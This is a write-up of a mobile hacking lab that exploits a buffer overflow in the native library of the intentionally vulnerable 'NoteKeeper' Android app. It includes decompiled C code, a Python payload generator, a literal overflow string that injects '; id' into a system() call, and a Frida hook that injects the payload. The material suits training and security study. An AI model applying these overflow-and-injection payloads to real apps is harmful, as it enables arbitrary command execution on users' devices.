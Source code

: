 **Description**: Welcome to the **NoteKeeper** Application, where users can create and encode short notes. However, lurking within the app is a critical buffer overflow vulnerability. Your mission is to uncover this vulnerability and exploit it to achieve remote code execution.

**Download**: https://lautarovculic.com/my_files/notekeeper.apk
**Link**: https://www.mobilehackinglab.com/path-player?courseid=lab-notekeeper

![[notekeeper.png]]

Install the app with **ADB**
```bash
adb install -r notekeeper.apk
```

We can see how this notes app allows us to **enter a title and description**.
In addition, once we *save the note*, it shows us a **character counter** (*of the description*).

Let's decompile the **apk** with **apktool**
```bash
apktool d notekeeper.apk
```
Also, let's inspect the **source code** with **jadx**.

We can see that this app call an **library**
```java
static {
    System.loadLibrary("notekeeper");
}
```
Let's see the code of some function.
We can see this function:
`Java_com_mobilehackinglab_notekeeper_MainActivity_parse`
With this content:
```C
Java_com_mobilehackinglab_notekeeper_MainActivity_parse
          (_JNIEnv *param_1,undefined8 param_2,_jstring *param_3)

{
  int local_2a8;
  char local_2a4 [100];
  char acStack_240 [500];
  int local_4c;
  ushort *local_48;
  _jstring *local_40;
  undefined8 local_38;
  _JNIEnv *local_30;
  undefined8 local_28;
  
  local_40 = param_3;
  local_38 = param_2;
  local_30 = param_1;
  local_48 = (ushort *)_JNIEnv::GetStringChars(param_1,param_3,(uchar *)0x0);
  local_4c = _JNIEnv::GetStringLength(local_30,local_40);
  memcpy(acStack_240,"Log \"Note added at $(date)\"",500);
  if (local_48 == (ushort *)0x0) {
    local_28 = 0;
  }
  else {
    local_2a4[0] = FUN_00100bf4(*local_48 & 0xff);
    for (local_2a8 = 1; local_2a8 < local_4c; local_2a8 = local_2a8 + 1) {
      local_2a4[local_2a8] = (char)local_48[local_2a8];
    }
    system(acStack_240);
    local_2a4[local_2a8] = '\0';
    local_28 = _JNIEnv::NewStringUTF(local_30,local_2a4);
  }
  return local_28;
}
```

Let's explain where the **buffer overflow** is.
- The overflow occurs in `local_2a4`, a **100-byte buffer**, when **data is copied** from `local_48` *without validating its size*.
- This allows **overwriting adjacent values on the stack**, including the `acStack_240` string, used in the **dangerous `system()` function**.

**How we can inject the malicious code?**
- We injected a **malicious payload that overflowed `local_2a4`** and **modified the contents** of `acStack_240`.
- We **exploited the call** to `system(acStack_240)` to execute **arbitrary commands** (`id`) on the system.

**Why this can work?**
- There was no **boundary validation in the loop that copies data** to `local_2a4`.
- The `system()` command *directly executes* what is in `acStack_240`.

But, **where we inject the payload?**
According to **`MainActivity.java`** class, we can see that the **parse** function of the **library** is used in the **title**
```java
String cap_title = this$0.parse(title_);
```
And
```java
public final native String parse(String Title);
```
- The title (`title_`) is **passed directly to the native parse method**, where the buffer overflow occurs.
- The description (`note_con`) is **not passed to the native method**, but is used only to display content in the interface.

So, the *char counter* doesn't matter clearly.
- The **native parse method works with `param_3`**, which **directly receives the title** as a String.
- In the C code, the **title is converted to a pointer (`local_48`)** and copied into the vulnerable buffer `local_2a4`.
```C
local_48 = (ushort *)_JNIEnv::GetStringChars(param_1,param_3,(uchar *)0x0);
```

So let's use this python script:
```python
# buffer local_2a4 (100 bytes)
payload = "A" * 100
# Padding
payload += "BBBB" * 5
# command to execute 'system(acStack_240)'
payload += "; id > /data/data/com.mobilehackinglab.notekeeper/test.txt"

with open("payload.txt", "w") as f:
    f.write(payload)

print("[+] Payload generated:")
print(payload)
print("[+] Saved as 'payload.txt'")
```
Then, copy the payload:
```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB; id > /data/data/com.mobilehackinglab.notekeeper/outputCommand.txt
```
And check the content with **ADB**
```bash
cat /data/data/com.mobilehackinglab.notekeeper/outputCommand.txt
```

Also you can try make it **intercepting** with **frida** the **title**, then **replace it with the payload**.
```javascript
Java.perform(function () {
    var MainActivity = Java.use('com.mobilehackinglab.notekeeper.MainActivity');

    // Hooking
    var parse = MainActivity.parse.overload('java.lang.String');
    parse.implementation = function (title) {
        console.log("[+] Intercepting parse...");
        console.log("[+] Original Title: " + title);

        // Craft payload
        var payload = "A".repeat(100); // Overflow buffer
        payload += "BBBB"; // Padding
        payload += "; id > /data/data/com.mobilehackinglab.notekeeper/fridaInection.txt";

        console.log("[+] Injected payload: " + payload);

        // Call to the function
        return parse.call(this, payload);
    };
});
```

![[notekeeper2.png]]

I hope you found it useful (: